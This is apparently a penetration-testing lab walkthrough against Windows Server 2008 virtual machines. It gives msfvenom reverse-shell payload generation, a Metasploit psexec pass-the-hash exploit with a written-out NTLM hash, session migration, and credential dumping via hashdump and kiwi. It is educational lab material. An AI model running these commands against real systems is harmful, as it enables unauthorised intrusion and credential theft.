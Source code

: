 1. Download M1 from Google Drive

2. Start:
-Kali2<BR>
-2k8dc_a2<BR>
-2k8m2_a1<BR>


3. On the Kali2 host, set a static IP 192.168.168.110<BR>
ifconfig eth0 192.168.168.110<BR>
ifconfig eth0 netmask 255.255.255.0<BR><BR>

4. Repeat last week’s step's to gain the password hash from M2 (refer to last week's notes). You'll want to grab the 32 characters on one side of the : and the 32 characters afterwards, such as<BR> aad3b435b51404eeaad3b435b51404ee:e7bf67913f1f54abf11af55aee36b9e9<BR>

5. Generating a reverse meterpreter payload within msfvenom (Kali 2):<BR>
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.168.110 lport=7477 -f exe -o /var/www/html/payload.exe<BR>
#Then don’t forget to start a listener and restart apache<BR>

6. Copy password and hash to a text file on the Kali box for reference.<BR>
7. Stop the VM 2k8m2_a1<BR>
8. Start the VM 2k8m1<BR>
9. Determine M1’s IP<BR>
10. Perform information gathering and enumeration against M1 with nmap<BR>
11. We know the password for M2's local Administrator, let's try it against M1.<BR>
12. With SMB open, what can we use to get onto M1?  The psexec module is often used by penetration testers to obtain access to a given system that you already know the credentials for. #It was written by sysinternals and has been integrated within the framework.<BR>
<BR>
13.Within msfconsole:<BR>
 use exploit/windows/smb/psexec<BR>
 set rhost 192.168.168.101<BR>
 set SMBUser Administrator<BR>
 set SMBPass aad3b435b51404eeaad3b435b51404ee:e7bf67913f1f54abf11af55aee36b9e9<BR>
 show options<BR>
 set payload windows/meterpreter/reverse_tcp<BR>
 set lhost 192.168.168.110<BR>
 set lport 7479<BR>
 exploit<BR>
<BR>
meterpreter > hashdump<BR>
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.<BR>
 
meterpreter > sysinfo<BR>
Computer        : M1<BR>
OS              : Windows 2008 R2 (Build 7601, Service Pack 1).<BR>
Architecture    : x64 (Current Process is WOW64)<BR>
meterpreter > background<BR>

14. Move to a 64bit Meterpreter session:<BR>
msfconsole> use windows/local/payload_inject <BR>
set payload windows/x64/meterpreter/reverse_tcp <BR>
set session x<BR>
set lhost 192.168.168.110<BR>
exploit<BR>
meterpreter> hashdump<BR>

15. Now try getting the password in plaintext. If for some reason you don’t see Alice’s password within a 64 bit Meterpreter shell, you need to delete the M1 virtual and re-extract the zip file or redownload it from Google Drive. Remember, interactive logins are wiped from memory when the system restarts!<BR>
meterpreter> load kiwi<BR>
meterpreter> help<BR>
meterpreter> creds_all<BR>
